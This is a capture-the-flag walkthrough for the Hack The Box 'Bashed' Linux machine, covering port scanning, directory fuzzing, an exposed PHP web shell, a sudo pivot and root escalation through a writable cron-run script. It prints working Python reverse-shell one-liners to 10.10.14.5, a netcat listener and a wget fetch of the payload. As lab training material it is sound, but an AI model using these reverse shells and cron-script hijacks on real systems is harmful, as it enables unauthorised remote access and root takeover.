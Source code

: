 # Bashed

**OS:** Linux

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/bashed)  [2](https://app.hackthebox.com/machines/Bashed)

**Machine ip:** 10.10.10.68

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6cf650ac-4c3d-4149-9393-626c443b2480)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.68 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ff38f3a-a5aa-4493-a119-fa3ad2067bf8)

+ Navigate to `http://10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a21b3006-628d-4a28-ad8b-4e7cfa141a30)

+ Directory fuzzing:
```
feroxbuster -u http://10.10.10.68 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 200,403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a24d471b-2314-4886-a94c-b7fb375d928e)

+ Check `http://10.10.10.68/dev/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5fd4e705-edbc-413a-aea1-c21d4bb841fe)


## Gaining Access

+ Click one of the php files, and gain a semi-interactive web shell.
+ Cat user.txt

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7c07f5a-dc65-41f9-983c-1aa0f5697877)

+ Get more stable revershell. Run on your kali attack vm: `nc -lnvp 4444`
+ Run python reverse shell on the target's browser based semi interactive shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

+ `python -c 'import pty; pty.spawn("/bin/bash")'`
+ `sudo -ll`
+ **www-data** user can run commands as **scriptmanager** user: `sudo -u scriptmanager /bin/bash`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c5a05271-ac94-4d4e-9dd7-418a80eec712)

## Privilege Escalation
+ `cd /`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/896f8a81-478c-41a0-a6e9-5729b1894204)

+ **scripts** directory is interesting: `cd scripts`
+ test.txt file is owned by **root** but it is writable by **scriptmanager**.
+ `ls -la`
+ `cat test.py`
+ `cat test.txt`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66e2654b-e29e-40be-b014-7f4c4dcb3ad4)

+ The last access time of the `test.txt` file changes every minute. The script runs every minute.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df6a0cd2-5966-4fbb-91b8-5cad62124888)

+ Even `test.txt` file name is changed, exists `test.txt` the same file name each minute again.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49b004f3-46e8-42d6-b672-4765d0cd1df4)

There is a cron job or something like a background process which runs **test.py** script automatically.
Replace **test.py** file with our test.py file containing reverse shell in order to get reverse shell of root user or not.

+ Create `test.py` revershell payload file on your attack machine:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

+ Start listener: `nc lnvp 5555`
+ Transfer it to target machine: `python3 -m http.server`
+ Download `wget 10.10.14.5:8000/test.py` and change the name.
+ Get the root shell:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c1b923d8-5e44-4c00-b9ab-c0405253686a)


# References & Alternatives
+ https://vvmlist.github.io/#bashed
+ https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/bashed-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-bashed/
+ https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715
+ https://lastlistener.github.io/Walkthroughs--HackTheBox_Bashed_Walkthrough_and_Lessons.html
